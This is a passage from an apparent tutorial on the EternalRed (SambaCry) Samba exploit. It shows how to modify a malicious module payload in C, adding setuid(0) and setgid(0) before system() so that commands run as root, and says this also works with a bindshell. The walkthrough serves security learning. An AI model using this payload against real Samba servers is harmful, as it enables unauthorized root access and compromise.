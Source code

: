 ![commandExecution](/img/EternalRed/Commands.png)
<br>

<h2>Root Root!</h2>
<br>
As you may see on the picture above, the directory created is owned by nobody. If you tried all the shells above, you will realise that whoami will give back nobody.
It would be better if we could get root right? Just a little bit of modification  (tweak) is needed here. From the C payload, after detachment but before command/shell execution, we can set our UID and GUID to 0 and simply become root. 
Simply add setuid(0) and setgid(0) like this:

<br>
```

int samba_init_module(void)
{
    detachFromParent();
    char command[50];
    setuid(0);
    setgid(0);

    strcpy( command, "mkdir /tmp/testroot" );
    system(command);
    return 0;
}

```

<br>
After complilation and execution, the test folder is created as root.
<br>

![root](/img/EternalRed/toroot.png)
<br>
Works with the original bindshell too.
<br>
